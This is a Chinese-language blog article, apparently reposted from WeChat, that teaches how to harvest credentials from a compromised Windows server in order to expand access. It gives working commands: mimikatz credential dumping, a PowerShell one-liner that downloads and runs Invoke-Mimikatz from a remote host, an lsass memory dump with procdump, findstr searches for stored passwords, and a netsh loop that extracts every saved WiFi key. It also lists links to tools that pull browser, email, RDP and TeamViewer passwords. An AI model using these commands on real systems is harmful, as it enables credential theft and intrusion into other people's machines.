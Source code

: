 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/3QwQCoaa45SECdLo7DZ8xQ)

拿到一台 Windows 服务器权限，收集各种登录凭证以便扩大战果。本篇分享几个窃取 Windows 登录凭证的工具和技巧。

**1、Windows 本地密码 Hash**  

Windows 的系统密码 hash 默认情况下一般由两部分组成：第一部分是 LM-hash，第二部分是 NTLM-hash。Windows 系统下 hash 密码格式用户名称: RID:LM-HASH 值: NT-HASH 值。

例如：

```
Administrator:500:AF01DF70036EBACFAAD3B435B51404EE:44F077E27F6FEF69E7BD834C7242B040

用户名称为：Administrator
RID为：500
LM-HASH值为：AF01DF70036EBACFAAD3B435B51404EE
NT-HASH值为：44F077E27F6FEF69E7BD834C7242B040
```

**破解方式一：hash 在线破解网站**

```
https://www.objectif-securite.ch/ophcrack
http://cmd5.com
```

**破解方式二：mimikatz**

Github 地址：

```
https://github.com/gentilkiwi/mimikatz
```

```
privilege::debug
sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4k7S2FiaDDryLRgEzJMdOZnuk7lod5yo1WDRTNUZDJDncas8YDp7EAVibeQ8x0U6mnCGmMMl3pXaMbw/640?wx_fmt=png)

**破解方式三：wce**  

```
wce的常用参数使用说明如下：

参数解释:
    -l     列出登录的会话和NTLM凭据（默认值）
    -s     修改当前登录会话的NTLM凭据 参数：<用户名>:<域名>:<LM哈希>:<NT哈希>
    -w     通过摘要式认证缓存一个明文的密码
```

**破解方式四：Powershell+mimikatz**

直接利用 poweshell 来调用 mimikatz 抓取系统内的明文密码。

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

**破解方式五：prodump+mimikatz**

procdump 是微软官方提供的一个小工具，微软官方下载地址：

```
https://technet.microsoft.com/en-us/sysinternals/dd996900
```

```
\# 将工具拷贝到目标机器上执行如下命令（需要管理员权限,我选择的版本是64位）
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# 将生成的内存dump文件拷贝到mimikatz同目录下，双击打开mimikatz执行情况如图：
mimikatz # sekurlsa::minidump lsass.dmp
# Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```

**2、抓取浏览器密码**

很多浏览器都提供了记住密码的功能，用户在登录一些网站的时候会选择记住密码。

LaZagne：提取浏览器所保存的密码

github 项目地址：

```
https://github.com/AlessandroZ/LaZagne
```

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4k7S2FiaDDryLRgEzJMdOZnuPJu1zfkAbicFNdoM55UGrE5DE5IA9PJdSyrql8ltmMk7IthragbgtCg/640?wx_fmt=png)

**3、服务端明文存储密码**

在一些配置文件或日志里，明文记录着敏感的密码信息，如 web.config、config.ini 等文件，可通过手动翻查敏感目录，也可以通过 findstr 命令来查找敏感文件和内容。

```
findstr /i /s "password" \*.config
findstr /i /s "password" \*.ini
findstr /i /s "password" \*.xml
```

**4、第三方运维工具托管密码解密**

常见的有 Linux 运维工具，如 Putty、xshell、winscp 等，RDP 管理工具，Remote Desktop Organizer，远控软件：Teamviewer 等。

xshell 密码解密工具：

```
https://github.com/dzxs/Xdecrypt
```

提取 WinSCP，PuTTY 等保存的会话信息：

```
https://github.com/Arvanaghi/SessionGopher
```

从内存中提取 TeamViewer 密码的工具：

```
https://github.com/attackercan/teamviewer-dumper
```

一键破解客户端星号密码 -- 星号密码查看器。  

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4k7S2FiaDDryLRgEzJMdOZnuZXSnoCjV1wN4icics6d1Z57koBJJFeianibEtwyMBg8AkodRlJtzlkFm8Q/640?wx_fmt=png)

**5、一键获取电脑 wifi 密码**

```
#查看电脑连接过的所有wifi
netsh wlan show profiles

#查看wifi信号为Aaron的密码
netsh wlan show profiles  key=clear

#CMD一键获取 所有连接过的WIFI密码
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```

**6、Windows 键盘记录工具**

可以记录用户键盘操作，从而捕获用户的敏感信息，在 github 和 T00ls 都可以找到这一类的源码和工具。

****7、Windows 密码提取工具合集****

各种 Windows 程序的密码提取工具，包括各种浏览器、邮箱、Windows 网络密码、无线网络密钥等。

IE 浏览器提取密码工具：

```
https://www.nirsoft.net/toolsdownload/iepv.zip
```

Firefox 浏览器密码提取工具：

```
https://www.nirsoft.net/toolsdownload/passwordfox-x64.zip
```

Chrome 浏览器密码提取工具：

```
https://www.nirsoft.net/toolsdownload/chromepass.zip
```

SVN 密码解密器：

```
http://www.leapbeyond.com/ric/TSvnPD/TSvnPwd\_source.zip
```

邮箱密码提取工具：

```
https://www.nirsoft.net/toolsdownload/mailpv.zip
```

提取. rdp 文件中存储的密码：

```
https://www.nirsoft.net/toolsdownload/rdpv.zip
```

MSSQL 凭据密码获取工具：

```
http://www.zcgonvh.com/zb\_users/upload/2015/2/mssql\_credentials\_pwd.zip
```